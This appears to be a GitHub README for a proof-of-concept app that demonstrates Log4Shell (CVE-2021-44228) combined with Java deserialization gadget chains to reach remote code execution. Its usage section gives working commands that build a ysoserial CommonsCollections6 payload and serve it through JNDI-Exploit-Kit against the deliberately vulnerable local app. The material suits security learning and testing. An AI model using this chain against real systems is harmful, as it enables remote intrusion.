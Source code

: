 ## Description
**Basic POC of log4j CVE-2021-44228 originally forked from [LiveOverflow/log4shell](https://github.com/LiveOverflow/log4shell)**

POC application that can be used to see how log4j vulnerability can be combined with Java deserialization vulnerability to obtain RCE even with an updated version on Java.

The application uses a vulnerable version of log4j 2 core and also imports Apache Commons Collections, I refer you [here](https://github.com/frohoff/ysoserial#description) for a really great summary on how "gadget chains" can be used to obtain unsafe deserialization of objects which ultimately leads to Remote Code Execution.

## How to build

To build the application you will need [`maven`](https://maven.apache.org/what-is-maven.html), after you have installed it just run `mvn package` and the compiled .jar will be inside a folder named *target*.

At any point you can play with the source code by updating *src/main/java/HelloLog.java* and then recompile the project to test things out.

## How to use it

Of course you are free to test the application however you want, I'll just show one simple way of doing it:

**NOTE: If you encounter problems try to change the default java version used by your system, in Ubuntu/Linux you can use `update-alternatives --config java`, for the following steps I'll be using java-8-openjdk**

1. First we'll clone or download [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) and [pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
2. Inside the ysoserial-modified folder we generate the serialized payload with the following command `java -jar target/ysoserial-modified.jar CommonsCollections6 bash 'mkdir /tmp/pwned' > payload.ser`. *mkidr /tmp/pwned* can be substituted with your own command
3. Move the generated *payload.ser* file inside the JNDI-Exploit-Kit folder
4. Inside the JNDI-Exploit-Kit folder we start the tool executing `java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 127.0.0.1:1389 -P payload.ser`. For a comprehensive documentation refer to the official repository
5. The vulnerable poc app is already set to call the custom payload end point generated by the jndi exploit kit so inside the vulnerable poc app folder you just need to execute `java -jar target/log4shell-1.0-SNAPSHOT.jar`
6. Now if you cd inside */tmp* you should find a folder named *pwned* or see the results of your custom command

## References
* [Zero-Day Exploit Targeting Popular Java Library Log4j](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)
* [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228)
* [A JOURNEY FROM JNDI/LDAP
MANIPULATION TO REMOTE CODE
EXECUTION DREAM LAND](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* [Serialization and deserialization in Java: explaining the Java deserialize vulnerability](https://snyk.io/blog/serialization-and-deserialization-in-java/)
* [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)
* [pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
